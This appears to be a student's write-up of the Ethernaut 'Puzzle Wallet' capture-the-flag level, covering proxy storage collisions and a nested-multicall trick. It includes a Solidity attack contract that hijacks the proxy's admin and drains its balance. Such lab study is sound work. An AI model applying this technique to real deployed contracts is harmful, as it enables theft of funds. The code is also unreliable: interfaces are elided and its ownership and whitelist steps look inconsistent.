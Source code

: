 # Level 24: [Puzzle wallet](https://ethernaut.openzeppelin.com/level/0x4dF32584890A0026e56f7535d0f2C6486753624f)

## Level objectives:
Become admin of proxy contract.
## Analysis
- Storage collisions:
```sol
// contract 1
address public pendingAdmin; // slot 0
address public admin; // slot 1
// the above two in diff slots cuz total would be 40 bytes = 320 bits which is more than a single slot can tak (256 bits)

// contract 1
address public owner; // slot 0
uint256 public maxBalance; // slot 1
```
- Note on upgradeable proxies: all functions are called on it; if that function is not defined in it, it calls `fallback` which forwadrs the call to the logic contract.
- Storage collision allows us to modify `admin` if we can modify `maxBalance`. To modify `maxBalance`, we need to be whitelisted. To edit whitelist, we need to be `owner`. To become owner we can overwrite it using `pendingAdmin` is it shares the same slot (0). (NOTE: but this happens if the `delegatecall` to another contract modifies the caller's storage. In this case the caller is modifying the callee's state. HOW!!???)
- After entering the whitelist we attack using the multicall function, which enables us to batch-execute multiple calls.
- But it tries to prevent us from executing `deposite` multiple times (checks using the function selector), but we go around this by re-executing `deposit` _via_ another multicall.

## Code:

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

interface PuzzleProxy {...}

interface PuzzleWallet {...}

contract AttackPuzzleWallet {

    PuzzleProxy proxy = PuzzleProxy(0x151C0ED13FC81B04Dd8499E7317a2484d7b68850);
    PuzzleWallet wallet = PuzzleWallet(0x151C0ED13FC81B04Dd8499E7317a2484d7b68850);

    function attack() external{
        bytes[] memory depositSelector = new bytes[](1);
        depositSelector[0] = abi.encodeWithSelector(wallet.deposit.selector);
        bytes[] memory nestedMulticall = new bytes[](2);
        nestedMulticall[0] = abi.encodeWithSelector(wallet.deposit.selector);
        nestedMulticall[1] = abi.encodeWithSelector(wallet.multicall.selector, depositSelector);

        proxy.proposeNewAdmin(msg.sender);
        wallet.addToWhitelist(msg.sender);
        wallet.multicall{value: 0.001 ether}(nestedMulticall);
        wallet.execute(msg.sender, 0.002 ether, "");
        wallet.setMaxBalance(uint256(uint160(msg.sender)));
    }
}
```
